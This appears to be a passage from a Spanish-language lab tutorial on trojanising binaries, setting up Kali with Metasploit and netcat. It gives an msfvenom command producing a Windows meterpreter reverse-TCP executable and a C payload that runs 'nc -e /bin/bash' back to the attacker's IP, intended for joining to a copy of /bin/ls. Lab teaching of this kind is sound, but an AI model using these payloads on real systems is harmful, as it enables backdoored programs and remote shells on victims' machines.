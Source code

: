 ### ⚙️ INSTALACIÓN DEL LABORATORIO EN MÁQUINAS VIRTUALES

#### 🧑‍💻 En la VM Kali Linux (Atacante):

```bash
sudo apt update
sudo apt install metasploit-framework netcat
```

Verifica que Metasploit esté funcionando:

```bash
msfconsole
```

Opcional: Instala `backdoor-factory` o usa `msfvenom` con binarios ya hechos.

---

### 🚧 PREPARACIÓN: Crear un binario con backdoor (ejemplo con `msfvenom`)

#### 1. Crear un binario infectado para Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.10 LPORT=4444 -f exe -o archivo_infectado.exe
```

📌 Explicación:

- `-p`: Payload = meterpreter reverso para Windows
- `LHOST`: IP de tu máquina atacante (Kali)
- `LPORT`: Puerto por el que escucharás
- `-f exe`: Formato ejecutable
- `-o`: Salida

---

### 📥 EJEMPLO PRÁCTICO: Modificar un binario Linux legítimo

Supón que tienes un archivo binario legítimo, como `ls`:

```bash
cp /bin/ls ls_original
```

#### Opcional: Insertar un payload en el binario usando `injector.py` (manual)

Esto es más avanzado, pero puedes compilar un payload en C y unirlo al binario. Un ejemplo más simple es:

```c
// payload.c
#include <stdlib.h>
int main() {
  system("nc -e /bin/bash 192.168.100.10 4444");
  return 0;
}
```
